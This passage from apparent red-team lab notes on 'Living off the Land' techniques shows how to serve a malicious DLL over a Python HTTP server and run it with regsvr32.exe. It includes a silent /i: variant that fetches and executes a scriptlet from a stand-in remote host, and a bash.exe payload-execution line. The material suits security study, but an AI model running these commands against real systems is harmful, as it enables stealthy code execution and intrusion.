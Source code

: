 **3. Transfer the malicious .dll**

For demonstration purpose, we use:

```C
python3 -m http.server 1337
```

**4. Execute the .dll using regsvr32.exe**

```C
c:\Windows\System32\regsvr32.exe c:\Users\thm\Downloads\live0fftheland.dll
```

Or

```C
c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll
```

- `/s`: in silent mode (without showing messages)

- `/n`: to not call the DLL register server (by default it calls the exported function `DLLRegisterServer` but we want to simply load and execute.)

- `/i`:: this will load `mylib.dll`, look for a function named `DllInstall`, and call it. after passing argument to `/i` this will call `DllInstall("argumentHere", ...)` so in our case it will download and execute a file from our attacker server.

- `/u`: calls the `DllUnregisterServer` function inside the DLL. Typically removes registry entries, but attackers can write a DLL that does _malicious stuff_ instead of just unregistering.

**Bourne Again Shell (BASH):**

Windows Subsystem for Linux (WSL), introduced in Windows 10 and later, lets you run Linux directly on Windows. There are two versions: WSL1 (translation layer -- **translates Linux system calls into Windows calls**) and WSL2 (lightweight virtual machine with a real Linux kernel). Users can install Linux distributions and interact with them using tools like **bash.exe**.

```C
bash.exe -c "path-to-payload"
```

In ATT&CK this technique is called **Indirect Command Execution** where attackers abuse the Windows tools utility to obtain command executions.

Obviously to use this it requires WSL installed.
## Other Techniques
---
Interesting techniques used for initial access or persistence.

**Shortcuts:**

Shortcuts or a symbolic links points to a resource such as file or executable located within the operating system.

![Living off the Land-2.png|350](/img/user/cards/red-team/images/Living%20off%20the%20Land-2.png)
